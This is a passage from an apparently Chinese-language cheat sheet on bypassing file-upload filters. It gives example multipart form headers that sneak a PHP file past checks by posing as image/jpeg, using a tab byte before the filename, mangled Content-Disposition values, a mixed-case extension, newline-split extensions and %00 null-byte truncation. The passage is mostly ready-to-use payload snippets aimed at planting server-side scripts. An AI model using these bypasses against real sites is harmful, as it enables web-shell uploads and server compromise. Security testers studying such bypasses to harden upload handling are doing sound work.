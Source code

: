 > 
content-disposition:form-data; name="upload_file"; filename="**/jpeg;/x.php**";
content-type: image/jpeg


#### 方法四：在 filename前加上[0x09]

> 
content-disposition:form-data; name="upload_file"; filename="[0x09]x.php";
content-type: image/jpeg


 

## 字符变异绕过：

#### 方法一：Content-Disposition的变量值变异绕过

**f+orm-data**

> 
content-disposition:**f+orm-data**; name="upload_file"; filename="x.php";
content-type: image/jpeg


**丢弃掉form-data**

> 
content-disposition: name="upload_file"; filename="x.php";
content-type: image/jpeg


#### 方法二：后缀名大小写绕过

> 
content-disposition:form-data; name="upload_file"; filename="**x.PHp**";
content-type: image/jpeg


## 数据截断绕过：

#### 方法一：将后缀换行，或者使用0x0a换行

> 
content-disposition:form-data; name="upload_file"; filename="x
.
p
h
p";
content-type: image/jpeg


#### 方法二：%00、0x00、截断

在url中%00表示ascll码中的0 ，而ascii中0作为特殊字符保留，表示字符串结束，所以当url中出现%00时就会认为读取已结束

0x开头表示16进制，0在十六进制中是00, 0x00就是%00解码成的16进制
